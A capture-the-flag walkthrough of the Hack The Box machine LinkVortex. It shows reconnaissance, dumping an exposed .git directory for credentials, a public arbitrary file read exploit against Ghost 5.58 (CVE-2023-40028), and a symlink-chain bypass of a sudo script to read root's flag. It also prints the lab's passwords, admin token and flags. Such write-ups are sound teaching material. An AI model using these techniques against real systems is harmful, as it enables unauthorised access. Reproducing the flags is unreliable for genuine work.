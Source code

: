 Let's scan the IP address
```bash
sudo nmap -v -sC -sV 10.10.11.47
```

![image](images/20250319212155.png)

There are open ports `22` and `80` and we see that the site is running on `Ghost 5.58`. Let's go to the site

![image](images/20250319210831.png)

Since this site is running on `Ghost`, let's try to find the authorization form. Let's go to `http://linkvortex.htb/ghost`

![image](images/20250319212624.png)

If we enter, for example, `jamie@linkvortex.htb` and click `Forgot?`, we will get the conclusion that such a user does not exist. Let's try `admin@linkvortex.htb` and see that there is no longer such an error, but now there is another one: `Failed to send email. Reason: getaddrinfo EAI_AGAIN linkvortex.htb`

![image](images/20250319213403.png)

<div style="page-break-after: always;"></div>

Let's try to find subdomains
```bash
ffuf -u http://linkvortex.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host:FUZZ.linkvortex.htb" -mc 200
```

![image](images/20250319213706.png)


![image](images/20250319213925.png)

Since this is the dev part of the site, let's try to find the `.git` directory

![image](images/20250319214003.png)

Let's use the `GitHack` tool to download this project
```bash
python GitHack.py http://dev.linkvortex.htb/.git/
```

![image](images/20250319214849.png)


![image](images/20250319215018.png)

There is only one directory `test`, in which there are other directories, in which there is only one file `authentication.text.js`. Of interest in it are the following lines:
```authentication.text.js
const email = 'test@example.com';
const password = 'OctopiFociPilfer45';
email: 'test-leo@example.com'
password: 'thisissupersafe'
email: 'test-edit@example.com'
password: 'thisissupersafe'
email: 'not-invited@example.org'
password: 'lel123456'
```
There is also a file `Dockerfile.ghost`

![image](images/20250319221504.png)

There is an interesting file path here: `/var/lib/ghost/config.production.json`.
Since we already know about the existence of the user `admin@linkvortex.htb`, let's try to log in under it using one of the known passwords

![image](images/20250319215620.png)

<div style="page-break-after: always;"></div>

The following data came up:
```Email
admin@linkvortex.htb
```
```Password
OctopiFociPilfer45
```
The site found `Staff access token (Give apps personal access without sharing your email/password.)`
```token
661253480a2b51000176c33c:56f8b1dd7123ce287c6bfeb91647f2b84c16a1d5e5751a725c8a04960d89408e
```
Since the version of `Ghost` is known and the admin data is available, we will find `PoC` and use [it](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028)
```bash
./CVE-2023-40028 -u admin@linkvortex.htb -p OctopiFociPilfer45 -h http://linkvortex.htb
```

![image](images/20250319221805.png)

Also, let's look at the contents of the file `/var/lib/ghost/config.production.json`

![image](images/20250319221845.png)


>[!info] Note
>If you don't know the exact location of the `config.production.json` file, you can display it like this: `/proc/self/cwd/config.production.json`.
>
>`/proc/self/cwd/` is a symbolic link in the virtual file system **`/proc`** on Linux, which points to the **current working directory** of the process accessing it.

There is a user
```User
bob@linkvortex.htb
```
```Password
fibber-talented-worth
```
Let's try to connect to it via SSH

![image](images/20250319222035.png)

The first flag is
```flag
ed7fae4c3f34bf1b36dc7c12bd35c9a7
```
<div style="page-break-after: always;"></div>

Let's see what `sudo` commands the user can execute. It can execute a script that has the following content:
```bash
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

![image](images/20250319222909.png)

The gist of the script is that it **checks and processes symbolic links to PNG files** to prevent access to critical system directories (`/etc`, `/root`). Here are the key steps:
1. **Argument check**:
The script only accepts files with the `.png` extension as an argument. If it is not a PNG, it exits with an error.
2. **File type check**:
Using `sudo /usr/bin/test -L`, it checks whether the argument is a symbolic link.
3. **Analyze the link target**:
If the link target contains `etc` or `root` paths (e.g. `/etc/passwd` or `/root/secret`), the link is **removed** to protect critical data.
4. **Quarantine for safe links**:
If the link does not point to `etc` or `root`, it is moved to `/var/quarantined`.
If the environment variable `CHECK_CONTENT=true`, the script **outputs the contents of the file** referenced by the PNG (even if it is a chain of several links).
Vulnerability: The script only checks the **direct target of the link**, but not the final file. This allows bypassing protection via a chain of links (for example: `malicious.png → file.txt → /root/password`)
In the home directory, there are files `root.txt` and `hyn.txt`. Let's use them to read the `root.txt` file:
```bash
ln -s /root/root.txt hyh.txt
ln -s /home/bob/hyh.txt hyh.png
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```

![image](images/20250319223517.png)

```flag
19be5ce19764bfa3a546efb916b269e9
```
## Explanation
1. **Creating a chain of symbolic links:**
- `hyh.txt` → symbolic link to `/root/root.txt`.
- `hyh.png` → symbolic link to `hyh.txt`.
- Goal: bypass script check for `/etc` or `/root` in path.
2. **Running script with `CHECK_CONTENT=true`:**
```bash
sudo CHECK_CONTENT=true /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/hyh.png
```
- Script checks only **first link** (`hyh.png` → `hyh.txt`), where path `hyh.txt` does not contain `/etc` or `/root`.
- `grep -Eq '(etc|root)'` check does not analyze **target file** (`/root/root.txt`), only **immediate link target**.
3. **Moving a link to quarantine and displaying its contents:**
- The script moves `hyh.png` to `/var/quarantined/`.
- If `CHECK_CONTENT=true`, it reads the contents of the file the link points to **after moving**:
- `hyh.png` → `hyh.txt` → `/root/root.txt`.
- Thus, the contents of the protected file `/root/root.txt` are displayed.
**Why it works:**
- The vulnerability of the script is that it checks the **direct target of the link**, not the **destination file**.
- The chain of links masks access to `/root/root.txt`, making the path "invisible" to the `grep -Eq '(etc|root)'` filter.

> [!info] Note
> **A symbolic link** (symlink) is a special file in the file system that **points to another file or directory**. It is similar to a "shortcut" in Windows. You can read more [[Symbolic links (symlinks) in Linux|here]].
